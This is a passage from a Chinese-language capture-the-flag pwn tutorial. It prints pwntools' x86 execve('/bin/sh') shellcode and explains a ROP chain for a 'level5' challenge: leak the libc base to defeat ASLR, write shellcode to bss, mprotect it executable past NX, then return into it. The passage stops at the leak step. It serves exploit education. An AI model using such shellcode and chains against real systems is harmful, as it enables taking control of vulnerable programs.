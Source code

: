 ```
```

pwntools提供的shellcode

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
  /* push '/bin///shx00' */
  push 0x68
  push 0x732f2f2f
  push 0x6e69622f
  mov ebx, esp
  /* push argument array ['shx00'] */
  /* push 'shx00x00' */
  push 0x1010101
  xor dword ptr [esp], 0x1016972
  xor ecx, ecx
  push ecx /* null terminate */
  push 4
  pop ecx
  add ecx, esp
  push ecx /* 'shx00' */
  mov ecx, esp
  xor edx, edx
  /* call execve() */
  push SYS_execve /* 0xb */
  pop eax
  int 0x80
```



## 2. level5，利用rop绕过aslr、nx、读取shellcode修改内存属性执行任意代码

level2，level3，level4都是rop相关的pwn。level5在level3的基础上加了限制，这里以level5为例做一个rop的示范。rop即Return-oriented Programming（面向返回的编程），主要思路是修改函数栈的返回地址利用代码块gadget来达到任意代码执行的效果。（看到这里，相信你已经对栈的结构和劫持控制流的过程有了初步了解，尝试去理解一下下面这个利用rop多次触发漏洞绕过很多限制最终执行任意代码的过程吧;p）

[![](https://p0.ssl.qhimg.com/t0199e3bf657843dc60.png)](https://p0.ssl.qhimg.com/t0199e3bf657843dc60.png)

​ Level5给出的限制的意思是使用mmap分配一块内存，然后使用mprotect改变内存属性为可执行最终达到任意代码执行的目的。由此可以想到的思路是：
1. 泄露libc基址绕过aslr，得到mmap、mprotect的地址
1. 程序未开启pie，加载基址固定，容易想到的一个比较方便的存放shellcode的地址是bss段。这里我们把shellcode写到bss段基址处
1. 由于开启了nx保护，bss段内存不可执行，所以需要mprotect改变bss段内存属性为可执行
[![](https://p2.ssl.qhimg.com/t010eb898d4f4320c33.png)](https://p2.ssl.qhimg.com/t010eb898d4f4320c33.png)
1. 覆盖函数返回地址为bss段基址执行shellcode
### <a class="reference-link" name="1)%20%E6%B3%84%E9%9C%B2libc%E5%9F%BA%E5%9D%80%E7%BB%95%E8%BF%87aslr"></a>1) 泄露libc基址绕过aslr

首先需要明确的一点是不管程序开没开启pie都是需要绕过aslr的，因为程序运行加载的动态库即libc是开启pie的，我们需要得到libc中函数的地址，反推我们需要得到libc的基址。

最终目的：执行write(1,write[@got](https://github.com/got))，返回到程序起始点以便多次触发漏洞
